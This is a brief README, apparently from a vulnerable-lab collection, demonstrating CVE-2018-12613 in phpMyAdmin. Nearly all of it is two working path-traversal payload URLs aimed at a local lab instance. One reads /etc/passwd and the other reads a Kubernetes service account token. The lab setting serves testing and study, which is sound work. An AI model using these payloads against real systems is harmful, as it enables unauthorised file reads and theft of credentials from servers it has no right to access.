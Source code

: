 # CVE-2018-12613

https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613

Open http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd in your browser to see the exploing.
Alternatively, open http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token.
